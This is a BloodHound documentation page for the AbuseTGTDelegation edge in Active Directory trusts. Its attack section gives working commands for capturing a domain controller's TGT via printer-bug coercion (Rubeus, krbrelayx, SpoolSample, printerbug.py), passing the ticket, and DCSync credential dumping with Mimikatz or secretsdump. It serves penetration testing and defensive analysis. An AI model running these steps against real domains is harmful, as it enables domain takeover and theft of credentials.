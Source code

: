 ---
title: AbuseTGTDelegation
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

The trust from the target node domain to the source node domain has TGT delegation enabled.

When a resource in the source node domain is configured with unconstrained delegation, principals from the target node domain will automatically forward their Ticket Granting Ticket (TGT) to that resource upon access.

Abuse Info
----------

TGT delegation allows an attacker to capture TGTs of privileged users or computers in the target domain when they authenticate against a system configured with unconstrained delegation.

A common attack method involves the attacker logging into a DC of the source domain and coercing a DC of the target domain. Since DCs have unconstrained delegation enabled by default, this grants the attacker a TGT for a target domain DC, which can then be used to perform a DCSync attack on the target domain. This guide details that version of the attack.

Alternatively, attackers can target other privileged computers or users besides DCs.

The attack will fail if the target is a member of Protected Users or is marked as not trusted for delegation, as their TGTs will not be sent to hosts with unconstrained delegation. You can identify all protected principals using the following Cypher query in BloodHound:

```cypher
MATCH (g:Group)
WHERE g.objectid ENDS WITH "-525"
MATCH (n:Base)
WHERE n.sensitive = TRUE OR (n)-[:MemberOf*..]->(g)
RETURN n
LIMIT 1000
```

Attackers can also exploit non-DC hosts or users in the source domain with unconstrained delegation enabled. To find all non-DC principals with unconstrained delegation in BloodHound, run:

```cypher
MATCH (n:Base)
WHERE n.unconstraineddelegation = TRUE AND NOT (n)-[:DCFor]->()
RETURN n
```

## Attack

**Step 1: Start Monitoring for TGTs**

Windows:

Log into a DC of the source domain and open a command prompt as Administrator.

Start monitoring for incoming TGTs using Rubeus:

```bash
Rubeus.exe request monitor /user:targetdc.domain.local /interval:5 /nowrap
```

Linux:

Obtain credentials for a computer or user with unconstrained delegation.

Start monitoring for incoming TGTs using krbrelayx.py with the credentials of the unconstrained delegation account:

```bash
krbrelayx.py -aesKey 9ff86898afa70f5f7b9f2bf16320cb38edb2639409e1bc441ac417fac1fed5ab
```

**Step 2: Coerce the Target DC**

The printer bug is abused in this example. If the Print Spooler service is disabled on the target host, alternative coercion techniques must be used. See "Windows Coerced Authentication Methods" under References for details.

To coerce the target DC, Authenticated Users access is required in the target domain. If the trust relationship is bidirectional, all principals in the source domain have this access by default. If not, coercion must be executed as a principal from the target forest. Attackers can obtain such a session using the trust account attack. See "SID Filter as a Security Boundary Between Domains? (Part 7) - Trust Account Attack" under References for details.

Windows:

From any host in the domain, coerce the target DC using SpoolSample:

```bash
SpoolSample.exe targetdc.domain.local compromiseddc.otherdomain.local
```

Rubeus will print the DC TGT as soon as it is received.

Linux:

Coerce the target DC using printerbug.py:

```bash
printerbug.py '<domain>/<username>:<password>'@<target DC IP> <compromised DC IP>
```

krbrelayx.py will save the received TGT to disk.

**Step 3: Pass the Ticket**

Windows:

Inject the DC TGT into memory using Rubeus:

```bash
Rubeus.exe ptt /ticket:doIFvjCCBbqgAwI...
```

Linux:

Set the KRB5CCNAME environment variable to the ticket's path:

```bash
export KRB5CCNAME=$path_to_ticket.ccache
```

**Step 4: DCSync the Target Domain**

Windows:

Use Mimikatz to DCSync the target domain from the machine where the DC TGT was injected:

```bash
lsadump::dcsync /domain:domain.local /user:DOMAIN\Administrator
```

Linux:

Use secretsdump.py to DCSync the target domain:

```bash
secretsdump.py -k -just-dc-user <DOMAIN/targetuser> <target DC DNS name>
```

Opsec Considerations
----------

The attack can be detected by correlating Windows security events from the attacker-controlled host and the target. See the reference "Hunting in Active Directory: Unconstrained Delegation & Forests Trusts" for details.

References
----------

* [Not A Security Boundary: Breaking Forest Trusts](https://posts.specterops.io/not-a-security-boundary-breaking-forest-trusts-cd125829518d)
* [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [Abusing Users Configured with Unconstrained Delegation](https://exploit.ph/user-constrained-delegation.html)
* [SID filter as security boundary between domains? (Part 7) - Trust account attack - from trusting to trusted](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)
* [“Relaying” Kerberos - Having fun with unconstrained delegation](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [SpoolSample](https://github.com/leechristensen/SpoolSample)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [krbrelayx.py](https://github.com/dirkjanm/krbrelayx/)
* [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
* [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
* [Updates to TGT delegation across incoming trusts in Windows Server](https://support.microsoft.com/en-us/topic/updates-to-tgt-delegation-across-incoming-trusts-in-windows-server-1a6632ac-1599-0a7c-550a-a754796c291e)
* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
